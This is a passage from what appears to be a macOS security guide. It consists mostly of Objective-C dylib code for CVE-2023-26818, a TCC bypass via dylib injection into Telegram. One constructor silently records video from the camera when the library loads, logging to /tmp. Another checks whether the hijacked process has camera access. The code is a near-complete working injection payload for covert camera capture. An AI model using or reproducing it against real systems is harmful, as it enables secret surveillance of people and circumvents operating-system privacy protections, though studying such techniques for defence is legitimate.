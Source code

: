 ```objectivec
    [self.captureSession stopRunning];
    NSLog(@"Recording stopped");
}
#pragma mark - AVCaptureFileOutputRecordingDelegate
- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
      fromConnections:(NSArray<AVCaptureConnection *> *)connections
                error:(NSError *)error {
    if (error) {
        NSLog(@"Recording failed: %@", [error localizedDescription]);
    } else {
        NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
    }
}
@end
__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {
    freopen("/tmp/logs.txt", "a", stderr);
    VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];
    [videoRecorder startRecording];
    [NSThread sleepForTimeInterval:3.0];
    [videoRecorder stopRecording];
    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:3.0]];
    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="ObjectiveC - Check" %}
Check if the program has access to the camera.

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface CameraAccessChecker : NSObject
+ (BOOL)hasCameraAccess;
@end
@implementation CameraAccessChecker
+ (BOOL)hasCameraAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to camera granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to camera denied.");
        return NO;
    }
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    freopen("/tmp/logs.txt", "a", stderr);
    [CameraAccessChecker hasCameraAccess];
    fclose(stderr); // Close the file stream
}
```
{% endtab %}
